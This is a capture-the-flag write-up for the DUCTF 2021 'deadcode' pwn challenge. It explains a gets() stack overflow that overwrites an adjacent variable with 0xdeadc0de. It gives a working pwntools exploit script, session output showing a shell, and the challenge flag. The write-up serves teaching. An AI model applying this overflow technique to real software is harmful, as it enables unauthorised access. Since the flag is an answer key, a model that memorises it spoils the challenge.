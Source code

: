 # deadcode

## Category
Pwn

## Points
Dynamically allocated starting at 500, ending at 100

## Description
I'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.

Author: xXl33t_h@x0rXx

`nc pwn-2021.duc.tf 31916`

Files: `deadcode`

## Keywords
pwntools, Python, Buffer Overflow, Ghidra

## Notes
The executable (`deadcode`) was opened in Ghidra, and this showed the `main()` function as:

![main function](main_function.png)

Here we can see the input uses `gets()` to fill the `local_28` array, which is of size 24 chars. We can also see that `local_10` is declared directly after the array.

This means that we can overflow the `local_28` array and overwrite the `local_10` variable on the stack (they will be contiguous).

Later in `main()`, we can see that `local_10` needs to be `0xdeadc0de` to give us a shell (via the `system("/bin/sh")` call).

*pwntools* can help here. A Python script we created that does what we want is:
```python
from pwn import *

context.update(arch='x86_64', os='linux')

p = remote('pwn-2021.duc.tf', 31916)

payload = cyclic(24) + p32(0xdeadc0de)
p.sendline(payload)

p.interactive()
```

When run, this gives the shell, and enables us to `cat` a file named *flag.txt* on the server:
```
$ python3 get_flag.py
[+] Opening connection to pwn-2021.duc.tf on port 31916: Done
[*] Switching to interactive mode

I'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.

What features would you like to see in my app?


Maybe this code isn't so dead...
$ ls
flag.txt
pwn
$ cat flag.txt
DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}$
$
```

